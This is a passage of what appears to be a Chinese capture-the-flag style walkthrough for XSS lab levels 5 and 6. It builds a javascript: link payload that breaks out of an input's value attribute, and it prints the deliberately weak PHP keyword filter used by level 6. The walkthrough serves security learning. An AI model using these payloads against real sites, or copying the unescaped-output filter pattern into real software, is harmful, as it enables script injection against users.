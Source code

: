 ##### HTML 链接语法

链接的HTML 代码很简单。它类似这样：

```html
<a href="url">链接文本</a>
```

##### 超链接执行js脚本

方式一：让js函数返回false,在onclick中也返回false;

```html
<a href="http://www.itcast.cn" onclick="return showTime();">显示当前时间</a>
```
方式二：将href指定成一段脚本
```html
<a href="javascript:showTime();">点击显示时间</a>
```

因此使用HTML超链接的方式，使得前端代码出现一个能执行js脚本语句的超链接，点击链接后弹窗

#### 构造XSS语句

既要闭合input标签内部，又要使得链接标签写入前端写法如下

原始input标签

```html
<input name=keyword  value="3333 ">
```

闭合inoput并构造添加一个超链接标签(注意前后双引号闭合)

```html
<input name=keyword  value="3333"><a href="javascript:alert(1);">链接文本</a><"">
```

则需要提交到搜索框中的部分为

```html
3333"><a href="javascript:alert(1);">链接文本</a><"
```

提交后XSS执行成功：

![](https://gitee.com/YatJay/image/raw/master/img/202203052213310.png)

### Level-6

对照第5关，将上面的XSS语句提交到第6关的搜索框中，发现无法弹窗，查看页面源代码，发现超链接标签中的href被替换

![](https://gitee.com/YatJay/image/raw/master/img/202203060944669.png)

![](https://gitee.com/YatJay/image/raw/master/img/202203060945083.png)

查看后台PHP代码，可见`<script`、`on`、`src`、`href`关键字都会被过滤

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
```